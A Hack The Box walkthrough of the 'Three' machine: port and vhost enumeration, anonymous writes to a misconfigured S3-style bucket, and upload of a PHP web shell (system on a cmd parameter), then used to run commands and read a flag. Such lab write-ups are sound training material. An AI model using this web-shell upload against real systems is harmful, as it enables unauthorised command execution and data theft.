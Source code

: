 # Three

## Enumeration

Start by enumerating open ports,

```sh
$ sudo nmap -sV 10.129.122.167
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 08:47 EDT
Nmap scan report for 10.129.122.167
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.58 seconds
```

To learn more about the website, I can install the [Wappalyzer](https://www.wappalyzer.com/) browser [extension](https://www.wappalyzer.com/apps) and visit the site again.

I see that it is running Apache 2.4.29 on Ubuntu. Hack The Box also says that it should show that the site is running PHP, but I don't see that. Another way, in dev tools, I can see the headers `Server: Apache/2.4.9 (Ubuntu)` and I confirm that it is running PHP by going to http://10.129.122.167/index.php.

## VHOST Domain Enumeration

Looking at the contact page, the email for the band is `mail@thetoppers.htb`, but that domain is not resolving, so I add it to `/etc/hosts` and confirm the page still loads using that address. Next, I want to enumerate other sub-domains that the server might be hosting using an enumeration tool such as `gobuster`, `wfuzz` or `feroxbuster`.

```sh
$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: 1 Status: 400 [Size: 306]
Found: 11192521404255 Status: 400 [Size: 306]
Found: 11192521403954 Status: 400 [Size: 306]
Found: gc._msdcs Status: 400 [Size: 306]
Found: 2 Status: 400 [Size: 306]
Found: 11285521401250 Status: 400 [Size: 306]
Found: 2012 Status: 400 [Size: 306]
Found: 11290521402560 Status: 400 [Size: 306]
Found: 123 Status: 400 [Size: 306]
Found: 2011 Status: 400 [Size: 306]
Found: 3 Status: 400 [Size: 306]
Found: 4 Status: 400 [Size: 306]
Found: 2013 Status: 400 [Size: 306]
Found: 2010 Status: 400 [Size: 306]
Found: 911 Status: 400 [Size: 306]
Found: 11 Status: 400 [Size: 306]
Found: 24 Status: 400 [Size: 306]
Found: 10 Status: 400 [Size: 306]
Found: 7 Status: 400 [Size: 306]
Found: 99 Status: 400 [Size: 306]
Found: 2009 Status: 400 [Size: 306]
Found: www.1 Status: 400 [Size: 306]
Found: 50 Status: 400 [Size: 306]
Found: 12 Status: 400 [Size: 306]
Found: 20 Status: 400 [Size: 306]
Found: 2008 Status: 400 [Size: 306]
Found: 25 Status: 400 [Size: 306]
Found: 15 Status: 400 [Size: 306]
Found: 5 Status: 400 [Size: 306]
Found: www.2 Status: 400 [Size: 306]
Found: 13 Status: 400 [Size: 306]
Found: 100 Status: 400 [Size: 306]
Found: 44 Status: 400 [Size: 306]
Found: 54 Status: 400 [Size: 306]
Found: 9 Status: 400 [Size: 306]
Found: 70 Status: 400 [Size: 306]
Found: 01 Status: 400 [Size: 306]
Found: 16 Status: 400 [Size: 306]
Found: 39 Status: 400 [Size: 306]
Found: 6 Status: 400 [Size: 306]
Found: www.123 Status: 400 [Size: 306]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

This is supposed to show that `s3.thetoppers.htb` is a vhost, but it doesn't? I add it to `hosts` and it does resolve though. 🙁

I've got an issue with this scenario. Normally, the S3 buckets will be hosted in AWS, not as a VHost on Apache, so enumerating the sub-domains with `gobuster` wouldn't work. I'll give it a pass however because many people use S3 static hosting as a CDN, so I may have found the domain in the original website. In fact, that was the first thing I did.

## Exploiting Misconfigured S3 Buckets

Knowning that they are using S3 buckets for hosting, I can use the `awscli` to try to connect to the buckets unauthenticated. The AWS CLI still needs to be configured to work,

```sh
$ aws configure
AWS Access Key ID [None]: hack
AWS Secret Access Key [None]: hack
Default region name [None]: hack
Default output format [None]: hack
```

I can now use the CLI to list files in the bucket,

```sh
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-07-05 08:43:14          0 .htaccess
2024-07-05 08:43:14      11952 index.php
```

We can read from the bucket, can we write to it and create a reverse shell? First the PHP file we will attempt to upload. I've broken this PHP code up because it triggers my anti-virus.

```php
<?php //Insert system call here ?>
```

The system call to insert is, `system($_GET["***"]);` replacing *** with `cmd`.

And attempt to upload it,

```sh
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

That worked, so let's try to exploit it by visiting, http://thetoppers.htb/shell.php?cmd=id

```txt
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It worked...

So I can get the flag (skipping the reverse shell in the walkthrough) with,

```sh
curl http://thetoppers.htb/shell.php?cmd=cat%20/var/www/flag.txt
```
